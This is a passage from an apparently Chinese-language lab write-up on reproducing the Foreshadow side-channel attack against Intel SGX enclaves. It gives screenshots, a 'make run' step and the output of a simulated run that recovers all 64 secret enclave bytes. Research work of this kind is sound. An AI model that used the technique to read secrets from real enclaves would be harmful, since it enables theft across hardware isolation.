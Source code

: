 1. **隐蔽性**：

- 仅通过时间测量推断信息，无需直接读取受害者内存，适用于绕过硬件隔离（如SGX Enclave）。

# 实验结果

## 程序未修改运行结果

![img](https://cdn.jsdelivr.net/gh/candyb0x/PicgoBed@main/uPic/1744035084198-6fd1f080-bdd3-4978-b6e6-1892e9ff8608-20250411173134127.png)

![img](https://cdn.jsdelivr.net/gh/candyb0x/PicgoBed@main/uPic/1744035113413-bb90ebe4-b201-4a76-95f1-63800292c016-20250411173206124.png)

从结果可以看出来，预测的值均为`0xff`，与实际值存在一些相应的差异。

## 使用内存模拟 enclave 进行实验

通过修改程序中`SIM_ENCLAVE`的值实现，在未启用 EENTER（sgx 支持） 的情况下，通过 PoC 展示在已打补丁的微代码的 CPU 上的 FS 功能；

```c
make run
```

运行程序得到的输出：[📎simResult.txt](https://www.yuque.com/attachments/yuque/0/2025/txt/34580676/1744200953741-e204eb3d-70d5-4899-9dc1-c740775f6055.txt)

```c
[main.c] verifying and destroying enclave secret..
    shadow[ 0]=0x67; enclave[ 0]=0x67    shadow[ 1]=0xc6; enclave[ 1]=0xc6
    shadow[ 2]=0x69; enclave[ 2]=0x69    shadow[ 3]=0x73; enclave[ 3]=0x73
    shadow[ 4]=0x51; enclave[ 4]=0x51    shadow[ 5]=0xff; enclave[ 5]=0xff
    shadow[ 6]=0x4a; enclave[ 6]=0x4a    shadow[ 7]=0xec; enclave[ 7]=0xec
    shadow[ 8]=0x29; enclave[ 8]=0x29    shadow[ 9]=0xcd; enclave[ 9]=0xcd
    shadow[10]=0xba; enclave[10]=0xba    shadow[11]=0xab; enclave[11]=0xab
    shadow[12]=0xf2; enclave[12]=0xf2    shadow[13]=0xfb; enclave[13]=0xfb
    shadow[14]=0xe3; enclave[14]=0xe3    shadow[15]=0x46; enclave[15]=0x46
    shadow[16]=0x7c; enclave[16]=0x7c    shadow[17]=0xc2; enclave[17]=0xc2
    shadow[18]=0x54; enclave[18]=0x54    shadow[19]=0xf8; enclave[19]=0xf8
    shadow[20]=0x1b; enclave[20]=0x1b    shadow[21]=0xe8; enclave[21]=0xe8
    shadow[22]=0xe7; enclave[22]=0xe7    shadow[23]=0x8d; enclave[23]=0x8d
    shadow[24]=0x76; enclave[24]=0x76    shadow[25]=0x5a; enclave[25]=0x5a
    shadow[26]=0x2e; enclave[26]=0x2e    shadow[27]=0x63; enclave[27]=0x63
    shadow[28]=0x33; enclave[28]=0x33    shadow[29]=0x9f; enclave[29]=0x9f
    shadow[30]=0xc9; enclave[30]=0xc9    shadow[31]=0x9a; enclave[31]=0x9a
    shadow[32]=0x66; enclave[32]=0x66    shadow[33]=0x32; enclave[33]=0x32
    shadow[34]=0x0d; enclave[34]=0x0d    shadow[35]=0xb7; enclave[35]=0xb7
    shadow[36]=0x31; enclave[36]=0x31    shadow[37]=0x58; enclave[37]=0x58
    shadow[38]=0xa3; enclave[38]=0xa3    shadow[39]=0x5a; enclave[39]=0x5a
    shadow[40]=0x25; enclave[40]=0x25    shadow[41]=0x5d; enclave[41]=0x5d
    shadow[42]=0x05; enclave[42]=0x05    shadow[43]=0x17; enclave[43]=0x17
    shadow[44]=0x58; enclave[44]=0x58    shadow[45]=0xe9; enclave[45]=0xe9
    shadow[46]=0x5e; enclave[46]=0x5e    shadow[47]=0xd4; enclave[47]=0xd4
    shadow[48]=0xab; enclave[48]=0xab    shadow[49]=0xb2; enclave[49]=0xb2
    shadow[50]=0xcd; enclave[50]=0xcd    shadow[51]=0xc6; enclave[51]=0xc6
    shadow[52]=0x9b; enclave[52]=0x9b    shadow[53]=0xb4; enclave[53]=0xb4
    shadow[54]=0x54; enclave[54]=0x54    shadow[55]=0x11; enclave[55]=0x11
    shadow[56]=0x0e; enclave[56]=0x0e    shadow[57]=0x82; enclave[57]=0x82
    shadow[58]=0x74; enclave[58]=0x74    shadow[59]=0x41; enclave[59]=0x41
    shadow[60]=0x21; enclave[60]=0x21    shadow[61]=0x3d; enclave[61]=0x3d
    shadow[62]=0xdc; enclave[62]=0xdc    shadow[63]=0x87; enclave[63]=0x87
[foreshadow.c] [OK] Foreshadow correctly derived all 64 bytes!
```
